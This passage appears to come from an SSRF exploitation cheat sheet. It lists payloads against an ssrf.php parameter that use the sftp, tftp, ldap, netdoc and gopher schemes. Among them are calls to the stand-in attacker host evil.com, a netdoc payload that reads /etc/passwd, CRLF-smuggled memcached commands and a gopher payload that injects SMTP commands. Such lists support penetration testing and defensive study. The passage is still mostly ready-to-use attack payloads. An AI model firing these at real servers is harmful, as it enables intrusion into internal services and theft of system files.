 ### SFTP

A network protocol used for secure file transfer over secure shell

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### TFTP

Trivial File Transfer Protocol, works over UDP

```powershell
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### LDAP

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```powershell
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### Netdoc

Wrapper for Java when your payloads struggle with "`\n`" and "`\r`" characters.

```powershell
ssrf.php?url=netdoc:///etc/passwd
```

### Gopher

The `gopher://` protocol is a lightweight, text-based protocol that predates the modern World Wide Web. It was designed for distributing, searching, and retrieving documents over the Internet.

```ps1
gopher://[host]:[port]/[type][selector]
```

This scheme is very useful as it as be used to send data to TCP protocol.

```ps1
gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A
```

Refer to the SSRF Advanced Exploitation to explore the `gopher://` protocol deeper.

## Blind Exploitation

> When exploiting server-side request forgery, we can often find ourselves in a position where the response cannot be read.

Use an SSRF chain to gain an Out-of-Band output: [assetnote/blind-ssrf-chains](https://github.com/assetnote/blind-ssrf-chains)
